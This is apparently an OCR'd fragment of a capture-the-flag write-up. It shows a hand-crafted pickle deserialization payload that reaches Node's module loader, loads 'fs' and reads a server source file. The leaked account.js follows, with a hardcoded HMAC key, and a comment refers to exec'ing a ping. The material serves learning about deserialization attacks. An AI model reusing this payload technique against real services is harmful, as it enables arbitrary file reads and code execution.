 ```
"global\n"+ //name
"S'b'\n"+ // push arbitrary String 'b'
"c"+ // GLOBAL
"a\n"+ //moduleName
"constructor\n"+ //name
// now we got [`this`, 'b', `process.mainModule.constructor`]
"s"+ // SETITEM
// and again for `_load`
"c"+ // GLOBAL
"global\n"+ //moduleName
"global\n"+ //name
"S'rediuce'\n"+ // push arbitrary String 'rediuce'
"c"+ // GLOBAL
"b\n"+ //moduleName
"_load\n"+ //name
// now we got [`this`, 'rediuce', `process.mainModule.constructor._load`]
"s" // SETITEM

pickle += ""+
"c"+ // GLOBAL
"global\n"+ //moduleName
"global\n"+ //name
"S'fs'\n"+ // push arbitrary String 'fs'
"c"+ // GLOBAL
"global\n"+ //moduleName
"rediuce\n"+ //name
"("+ // a marker used to define the begining of something
"S'fs'\n"+ // 'fs' String
"l"+ // l create an array of elements until the marker
// stack looks like [`this`, 'fs', `this.rediuce`, ['fs']]
"R"+ // REDUCE apply `this.rediuce` on 'fs'
// stack looks like [`this`, 'fs', `fs`]
"s"+ // SETITEM so we have this.fs accessible

"(dp0\nS'username'\np1\n"+

"c"+ // GLOBAL
"fs\n"+ //moduleName
"readFileSync\n"+ //name
"("+
"S'/home/notesbin/sickle/notesbin/routes/account.js'\n"+
"l"+ // push pop 'ping secret-in.me' and push ['ping secret-in.me']
"R"+ // apply `cp.exec` on 'ping secret-in.me'
"s"+ // create dict {username: contentOfFile}
"." // the end
```

/home/notesbin/sickle/notesbin/routes/account.js

```
var express = require('express');
var router = express.Router();
var crypto = require('crypto');
const HMAC_KEY = 'gkcB2CSY1VZ7sri2dmafyyHl0qa8tJ65'; // not the flag. you must become admin.

/* GET users listing. */
router.get('/', function(req, res, next) {
  // sign-up form
  res.render('account_index', { error: req.query.error, title: "Sign up" });
});

router.post('/create', function (req, res, next) {
  // sign-up form receiver
  if (req.body) {
```